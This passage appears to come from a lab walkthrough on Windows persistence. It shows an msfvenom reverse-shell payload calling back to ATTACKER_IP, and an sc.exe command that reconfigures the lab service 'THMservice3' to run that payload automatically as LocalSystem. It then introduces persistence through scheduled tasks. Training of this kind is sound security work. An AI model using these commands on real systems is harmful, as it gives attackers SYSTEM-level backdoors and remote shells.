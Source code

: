 There are three things we care about when using a service for persistence:

- The executable (**BINARY_PATH_NAME**) should point to our payload.
- The service **START_TYPE** should be automatic so that the payload runs without user interaction.
- The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:

- **AttackBox**        

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
        
```

To reconfigure "THMservice3" parameters, we can use the following command:

- **Command Prompt**        

```shell-session
C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
        
```

You can then query the service's configuration again to check if all went as expected:

- **Command Prompt**        

```shell-session
C:\> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
        
```

#  Abusing Scheduled Tasks

We can also use scheduled tasks to establish persistence if needed.  There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

### Task Scheduler

The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will  start, allowing you to configure tasks that will activate at specific  hours, repeat periodically or even trigger when specific system events  occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).
